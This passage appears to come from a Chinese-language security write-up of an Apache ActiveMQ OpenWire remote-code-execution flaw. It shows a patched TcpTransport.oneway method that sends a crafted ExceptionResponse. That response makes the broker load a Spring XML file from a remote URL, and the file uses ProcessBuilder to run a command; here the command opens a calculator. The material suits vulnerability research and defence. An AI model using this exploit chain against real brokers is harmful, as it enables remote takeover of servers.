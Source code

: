 它的 oneway 方法会调用 wireFormat.marshal() 去序列化 command

command 就是前面准备发送的 ObjectMessage, 而 wireFormat 就是和它对应的序列化器

那么我们只需要手动 patch 这个方法，将 command 改成 ExceptionResponse, 将 wireFormat 改成 ExceptionResponseMarshaller 即可

这里我没有分析 OpenWire 协议，而是用了一个比较取巧的办法

在当前源码目录下新建一个 `org.apache.activemq.transport.tcp.TcpTransport` 类，然后重写对应的逻辑，这样在运行的时候，因为 classpath 查找顺序的问题，程序就会优先使用当前源码目录里的 TcpTransport 类

然后是 createThrowable 方法的利用，这块其实跟 PostgreSQL JDBC 的利用类似，因为 ActiveMQ 自带 spring 相关依赖，那么就可以利用 ClassPathXmlApplicationContext 加载 XML 实现 RCE

```bash
public void oneway(Object command) throws IOException {
    this.checkStarted();
    Throwable obj = new ClassPathXmlApplicationContext("http://127.0.0.1:8000/poc.xml");
    ExceptionResponse response = new ExceptionResponse(obj);
   this.wireFormat.marshal(response, this.dataOut);
    this.dataOut.flush();
}
```

因为在 marshal 的时候会调用 `o.getClass().getName()` 获取类名，而 getClass 方法无法重写 (final), 所以我在这里同样 patch 了 `org.springframework.context.support.ClassPathXmlApplicationContext`, 使其继承 Throwable 类

[![](assets/1701606889-17925dc160c06fdb87bc8b39c1725830.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026172550-a6fa4b00-73e1-1.png)

```bash
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <value>open</value>
                <value>-a</value>
                <value>calculator</value>
            </list>
```